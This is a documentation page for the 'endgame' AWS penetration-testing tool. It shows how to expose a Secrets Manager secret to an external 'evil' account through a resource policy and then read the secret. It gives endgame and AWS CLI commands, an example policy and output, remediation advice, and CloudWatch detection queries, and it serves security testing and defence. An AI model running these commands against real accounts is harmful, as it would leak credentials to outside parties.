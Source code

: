 # Secrets Manager

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* **Option 1**: To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service secretsmanager --name test-resource-exposure
```

* **Option 2**: To expose the resource using AWS CLI, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil
export VICTIM_RESOURCE=arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure
export EVIL_POLICY='{"Version": "2012-10-17", "Statement": [{"Sid": "AllowCurrentAccount", "Effect": "Allow", "Principal": {"AWS": "arn:aws:iam::999988887777:user/evil"}, "Action": "secretsmanager:*", "Resource": ["arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure"]}]}'

aws secretsmanager put-resource-policy --secret-id --resource-policy $EVIL_POLICY
```

* To view the contents of the exposed resource policy, run the following:

```bash
aws secretsmanager get-resource-policy --secret-id test-resource-exposure
```

* Observe that the contents of the exposed resource policy match the example shown below.

## Example

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::999988887777:user/evil"
      },
      "Action": "secretsmanager:*",
      "Resource": [
        "arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure"
      ]
    }
  ]
}
```

## Exploitation

* Authenticate to the `evil` account (In this example, `arn:aws:iam::999988887777:user/evil`)

* Run the following command in the victim account:

```bash
export VICTIM_RESOURCE=arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure

aws secretsmanager get-secret-value --secret-id $VICTIM_RESOURCE 
```

* Observe that the output resembles the following:

```json
{
  "ARN": "arn:aws:secretsmanager:us-east-1:111122223333:secret/test-resource-exposure",
  "Name": "test-resource-exposure",
  "VersionId": "DOGECOIN",
  "SecretString": "{\n  \"username\":\"doge\",\n  \"password\":\"coin\"\n}\n",
  "VersionStages": [
    "AWSCURRENT"
  ],
  "CreatedDate": 1523477145.713
}
```

## Remediation

* **Leverage Strong Resource-based Policies**: Follow the resource-based policy recommendations in the [Prevention Guide](https://endgame.readthedocs.io/en/latest/prevention/#leverage-strong-resource-based-policies)
* **Trusted Accounts Only**: Ensure that Secrets Manager secrets are only shared with trusted accounts, and that the trusted accounts truly need access to the secret.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Secrets Manager secrets. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-secrets-manager) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your Secrets**: Tightly control access to the following IAM actions:
      - [secretsmanager:PutResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_PutResourcePolicy.html): _Enables the user to attach a resource policy to a secret._
      - [secretsmanager:GetSecretValue](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetSecretValue.html): _Enables the user to retrieve and decrypt the encrypted data._
      - [secretsmanager:DeleteResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_DeleteResourcePolicy.html): _Enables the user to delete the resource policy attached to a secret._
      - [secretsmanager:GetResourcePolicy](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetResourcePolicy.html): _Enables the user to get the resource policy attached to a secret._
      - [secretsmanager:ListSecrets](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_ListSecrets.html): _Enables the user to list the available secrets._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='secretsmanager.amazonaws.com' AND (eventName='PutResourcePolicy' or eventName='DeleteResourcePolicy')
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='secretsmanager.amazonaws.com' AND (eventName='PutResourcePolicy' and requestParameters.resourcePolicy like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [aws secretsmanager get-resource-policy](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/get-resource-policy.html)
* [aws secretsmanager get-secret-value](https://docs.aws.amazon.com/cli/latest/reference/secretsmanager/get-secret-value.html)
* [aws secretsmanager put-resource-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/secretsmanager/put-resource-policy.html)
